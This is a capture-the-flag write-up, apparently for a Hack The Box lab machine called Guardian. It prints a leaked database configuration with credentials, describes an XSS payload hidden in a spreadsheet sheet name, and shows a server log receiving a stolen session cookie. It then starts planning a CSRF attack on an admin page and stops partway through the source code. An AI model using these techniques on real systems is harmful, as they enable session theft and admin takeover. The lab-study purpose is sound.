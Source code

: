 ```users
[jamil.enockson@guardian.htb](mailto:jamil.enockson@guardian.htb)
[mark.pargetter@guardian.htb](mailto:mark.pargetter@guardian.htb)
admin [admin@guardian.htb](mailto:admin@guardian.htb)
```

```php
config/config.php
<?php
return [
'db' => [
'dsn' => 'mysql:host=localhost;dbname=guardiandb',
'username' => 'root',
'password' => 'Gu4rd14n_un1_1s_th3_b3st',
'options' => []
],
'salt' => '8Sb)tM1vs1SS'
];
```


After i while i found the i can exploit the xlsx vulnerablitiy by putting the xss payload in the sheet name.
The xss script while execute in the page of the user so i can fetch his cookie and send it back to me.

```sh
╭─slom at slom-Legion-5-Pro-16IAH7H in ~/HTB/linux/hard/Guardian
╰─○ sudo python3 -m http.server 80                                          
[sudo] password for slom: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.84 - - [06/Sep/2025 17:46:25] code 404, message File not found
10.10.11.84 - - [06/Sep/2025 17:46:25] "GET /cookies?c=PHPSESSID=qsu07m3km5occ3hcoousb1kgk2 HTTP/1.1" 404 -

```

Now, we have lecturer cookie, After browsing the website i found `notices` page that i submit a link and the admin will visit the link, 
And there is interesting admin page called add user which i can add users from it as admins. But how can i get the csrf and cookie of admin?

After looking at the source code i found:
```
$token = bin2hex(random_bytes(16));
add_token_to_pool($token);

if (!isAuthenticated() || $_SESSION['user_role'] !== 'admin') {
header('Location: /login.php');
exit();
}
$config = require '../config/config.php';
$salt = $config['salt'];
$userModel = new User($pdo);
if ($_SERVER['REQUEST_METHOD'] === 'POST') {

$csrf_token = $_POST['csrf_token'] ?? '';
if (!is_valid_token($csrf_token)) {
die("Invalid CSRF token!");
}


--------------

function get_token_pool()
{
global $global_tokens_file;
```